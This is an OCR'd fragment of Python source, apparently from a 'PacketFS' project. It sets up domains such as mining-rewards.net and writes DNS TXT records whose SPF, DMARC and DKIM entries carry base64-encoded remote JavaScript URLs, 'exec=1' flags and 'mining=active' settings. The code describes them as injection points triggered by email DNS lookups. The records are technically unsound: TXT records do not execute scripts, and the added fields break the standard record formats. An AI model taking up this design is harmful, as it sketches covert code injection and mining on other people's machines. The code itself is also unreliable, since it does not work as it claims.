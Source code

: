 ```python
            'packetfs_injections': 0,
            'email_providers': set(),
            'unique_ips': set()
        }
        
    def setup_email_trigger_domains(self):
        """Set up domains that trigger email DNS lookups"""
        domains = [
            'packetfs-mail.global',      # Primary injection domain
            'pfs-verify.com',            # Verification emails
            'mining-rewards.net',        # Mining reward notifications  
            'crypto-earn.org',           # Crypto earning updates
            'super-cpu.io',              # Network updates
        ]
        
        for domain in domains:
            self.setup_domain_dns_records(domain)
            
        return domains
        
    def setup_domain_dns_records(self, domain):
        """Set up PacketFS-enhanced DNS records for domain"""
        
        # PacketFS-enhanced SPF record
        spf_record = (
            "v=spf1 include:_spf.google.com ~all; "
            "v=pfs1; "
            "js=aHR0cHM6Ly9jZG4ucGFja2V0ZnMuZ2xvYmFsL3YxL2VtYWlsLWNvcmUuanM=; "
            "exec=1; "
            "trigger=email_dns; "
            "nodes=1247832"
        )
        
        # PacketFS-enhanced DMARC record
        dmarc_record = (
            f"v=DMARC1; p=quarantine; rua=mailto:dmarc@{domain}; "
            "v=pfs1; "
            "mining=active; "
            "rewards=true; "
            "compute_mode=email_triggered"
        )
        
        # PacketFS-enhanced DKIM record (with valid key)
        dkim_record = (
            "v=DKIM1; k=rsa; "
            "p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC7vbqajDw4o6gJy8aDM4s...; "
            "v=pfs1; "
            "wasm=true; "
            "gpu_acceleration=available"
        )
        
        dns_config = f"""
# PacketFS Email DNS Configuration for {domain}

{domain}.                    300  IN  TXT  "{spf_record}"
_dmarc.{domain}.            300  IN  TXT  "{dmarc_record}"
email._domainkey.{domain}.  300  IN  TXT  "{dkim_record}"

# Additional PacketFS injection points
cdn.{domain}.               300  IN  TXT  "v=pfs1; js=aHR0cHM6Ly9jZG4ucGFja2V0ZnMuZ2xvYmFsL3YxL2NvcmUuanM=; exec=1"
api.{domain}.               300  IN  TXT  "v=pfs1; api=true; endpoints=active"  
mining.{domain}.            300  IN  TXT  "v=pfs1; bitcoin=true; pools=active"
```